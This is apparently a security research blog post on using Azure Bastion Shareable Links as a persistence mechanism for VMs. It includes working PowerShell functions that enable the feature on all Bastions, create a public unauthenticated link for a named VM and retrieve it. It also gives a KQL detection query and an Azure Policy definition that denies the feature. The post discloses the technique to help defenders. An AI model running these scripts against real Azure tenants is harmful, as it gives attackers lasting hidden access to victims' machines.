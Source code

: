 ```yaml
---
layout: post
title:  "Yet Another Azure VM Persistence Using Bastion Shareable Links"
date:   2022-11-26
---
```


Earlier this week Microsoft [announced the public preview of Shareable Links in Azure Bastion](https://learn.microsoft.com/en-us/azure/bastion/shareable-link). 

Out-of-the-box persistence for a Virtual Machine that is reachable through an Azure Bastion, allowing for yet [another](https://microsoft.github.io/Azure-Threat-Research-Matrix/Persistence/Persistence/) persistence mechanism in Azure?

I deployed an Azure Bastion to validate, enabled the feature, and generated a Shareable Link for a VM. The link has no additional authentication and is publicly accessible.

**Example link:** Public link for Bastion - [https://bst-c6bf3220-015d-4d6e-8c19-32ac484e341f.bastion.azure.com/api/shareable-url/074fa24e-8614-47ea-94f7-f9f901003598](https://bst-c6bf3220-015d-4d6e-8c19-32ac484e341f.bastion.azure.com/api/shareable-url/074fa24e-8614-47ea-94f7-f9f901003598) 

![bastion](https://user-images.githubusercontent.com/26272119/204090894-4c9f4232-215a-472e-90d9-77dab0aba820.png)

To enable the feature and get a shareable link, the permissions listed below are required to perform this. These permissions are all associated with the Contributor role: 

- Microsoft.Network/bastionHosts/write
- Microsoft.Network/bastionHosts/createShareableLinks/action
- Microsoft.Network/bastionHosts/getShareableLinks/action

There are three operations required to configure the persistence:

1. Update the Bastion to enable the Shareable Link feature [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/bastion-hosts/create-or-update?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/bastion-hosts/create-or-update?tabs=HTTP) 
2. Create a Shareable Link for a specified VM [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/put-bastion-shareable-link/put-bastion-shareable-link?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/put-bastion-shareable-link/put-bastion-shareable-link?tabs=HTTP)
3. Retrieve the URL for the Shareable Link  [https://learn.microsoft.com/en-us/rest/api/virtualnetwork/get-bastion-shareable-link/get-bastion-shareable-link?tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/virtualnetwork/get-bastion-shareable-link/get-bastion-shareable-link?tabs=HTTP) 

To streamline enablement of the feature, I wrote two functions, that I plan to further improve and submit to [Microburst](https://github.com/NetSPI/MicroBurst). 

Note that it requires the Az module to be installed for it to retrieve a token:

```powershell
function Invoke-AzRestBastionShareableLink {

    # Author: Karim El-Melhaoui(@KarimMelhaoui), O3 Cyber
    # Description: PowerShell function for creating a shareable link in Azure Bastion
    # A VM must be specified as the link is attached to a VM.
    # https://learn.microsoft.com/en-us/azure/bastion/shareable-link

    [CmdletBinding()]
    Param(
    [Parameter(Mandatory=$true,
    HelpMessage="Name of VM to enable Shareable Link")]
    [string]$VMName = ""
    )

    $Token = Get-AzAccessToken
    $Headers = @{Authorization = "Bearer $($Token.Token)" }

    $AzBastions = Get-AzBastion
    Write-Output "Enabling Shareable Link feature on all Azure bastions"

    #Gets the ID of VM specified through name parameter to use for creating a shareable link
    $VMId = Get-AzVM -Name $VMName | Select-Object -ExpandProperty Id
    Write-Output "Id of VM: $VMId" 

    foreach ($AzBastion in $AzBastions) {

        
        $body = -join ('{"location": "',$AzBastion.location,'", "properties": {"enableShareableLink": "true","ipConfigurations": [{"name": "',$AzBastion.IpConfigurations.Name,'","properties":{"publicIPAddress": {"Id": "',$AzBastion.IpConfigurations.PublicIpAddress.Id,'"},"subnet":{"Id": "',$AzBastion.IpConfigurations.Subnet.Id,'"}}}]}}')
        $RGName = $AzBastion.ResourceGroupName
        $BastionName = $AzBastion.Name
        try {
            Write-Output "Enabling shareable links on $BastionName"
            Invoke-RestMethod -Method Put -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)?api-version=2022-05-01" -Headers $Headers -Body $body -ContentType "application/json"

        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
        
        #Generate body with VM ID specifie. 
        $VMBody = -join ('{"vms":[{"vm":{"id":"',$VMId,'"}}]}')

        try {
        #Creates shareable link for specified VM
        Invoke-RestMethod -Method Post -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)/createShareableLinks?api-version=2022-05-01" -Headers $Headers -Body $VMBody -ContentType "application/json"

        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
    }
}

Invoke-AzRestBastionShareableLink
```


Once the feature is enabled on a Bastion, you can retrieve the links using the function below. The retrieval of the Shareable Link is separated into a separate function as the Shareable Link cannot be retrieved until the operation for enabling it is complete.



```powershell
function Get-AzRestBastionShareableLink {

    # Author: Karim El-Melhaoui(@KarimMelhaoui), O3 Cyber
    # Description: PowerShell function for getting an existing shareable link in Azure Bastion
    # https://learn.microsoft.com/en-us/azure/bastion/shareable-link

    $Token = Get-AzAccessToken
    $Headers = @{Authorization = "Bearer $($Token.Token)" }

    $AzBastions = Get-AzBastion
    Write-Output "Getting all Shareable Links for Azure bastions"
    foreach ($AzBastion in $AzBastions) {        
        $RGName = $AzBastion.ResourceGroupName
        $BastionName = $AzBastion.Name
    
        try {
            $BastionLink = Invoke-RestMethod -Method Post -Uri "https://management.azure.com/subscriptions/$($subscriptionId)/resourceGroups/$($RGName)/providers/Microsoft.Network/bastionHosts/$($BastionName)/GetShareableLinks?api-version=2022-05-01" -Headers $Headers | Select-Object -ExpandProperty Value | Select-Object -ExpandProperty bsl
            Write-Host -ForegroundColor Green "Public link for Bastion: $BastionLink"
        }
        catch {
            Write-Output "Something went wrong. : $_"
        }
    }
}

Get-AzRestBastionShareableLink
```



# Detection

The particular operations can be deteted in the AzureActivity log with the KQL query below:

```bash
AzureActivity
| where OperationNameValue =~ "MICROSOFT.NETWORK/BASTIONHOSTS/GETSHAREABLELINKS/ACTION" or OperationNameValue =~ "MICROSOFT.NETWORK/BASTIONHOSTS/CREATESHAREABLELINKS/ACTION"
| order by TimeGenerated desc
| project Caller, CallerIpAddress, OperationName, TimeGenerated, ResourceId
```



# Prevention

Ideally, you should also consider preventing the feature using Azure Policy with the below Policy Definition:

```json
{
  "mode": "All",
  "parameters": {
    "effect": {
      "type": "String",
      "allowedValues": ["Audit", "Disabled", "Deny"]
    }
  },
  "policyRule": {
    "if": {
      "allOf": [
        {
          "field": "type",
          "equals": "Microsoft.Network/BastionHosts"
        },
        {
          "field": "Microsoft.Network/BastionHosts/enableShareableLink",
          "equals": true
        }
      ]
    },
    "then": {
      "effect": "[parameters('effect')]"
    }
  }
}
```


# Summary

Even though this is an intended feature and behavior, security teams should be aware of the feature and implement detections.